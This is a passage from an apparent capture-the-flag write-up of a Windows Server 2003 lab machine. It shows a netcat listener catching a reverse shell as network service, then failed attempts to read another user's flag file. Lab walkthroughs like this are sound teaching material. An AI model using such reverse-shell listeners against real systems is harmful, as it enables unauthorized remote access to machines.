 At my listener:

```

root@kali# rlwrap nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.14.
Ncat: Connection from 10.10.10.14:1030.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
nt authority\network service

```

Sometimes this script too would fail, if the box wasn’t in a clean start. When doing buffer overflow exploits, it’s a good idea to start from a clean state if possible (ie reset the box).

### No user.txt

Interestingly, I didn’t have access to `user.txt` at this point. There was one user, Harry:

```

C:\Documents and Settings>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 246C-D7FE

 Directory of C:\Documents and Settings

04/12/2017  05:32 PM    <DIR>          .
04/12/2017  05:32 PM    <DIR>          ..
04/12/2017  05:12 PM    <DIR>          Administrator
04/12/2017  05:03 PM    <DIR>          All Users
04/12/2017  05:32 PM    <DIR>          Harry
               0 File(s)              0 bytes
               5 Dir(s)  18,090,201,088 bytes free

```

I did not have access:

```

C:\Documents and Settings>cd harry
Access is denied.

C:\Documents and Settings>type harry\desktop\user.txt
Access is denied.

```

